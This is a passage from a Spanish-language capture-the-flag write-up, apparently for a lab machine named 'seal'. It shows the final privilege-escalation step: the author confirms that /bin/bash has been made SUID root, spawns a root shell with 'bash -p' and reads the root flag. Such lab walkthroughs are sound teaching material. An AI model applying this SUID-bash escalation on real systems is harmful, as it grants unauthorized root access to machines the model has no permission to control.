 Comprobamos que nos a injectado el comando 
```bash
luis@seal:/dev/shm$ ls -l /bin/bash
-rwsr-sr-x 1 root root 1183448 Jun 18  2020 /bin/bash
```

Procedemos a spawnearnos una shell con el comando `bash -p`
```bash
luis@seal:/dev/shm$ bash -p
bash-5.0# whoami
root
bash-5.0# cat /root/root.txt 
0a7a7226295a7axxxxxxxxxxxxxxxxxxxxxx
```

Maquina Rooteada =D 	K0 H4ck
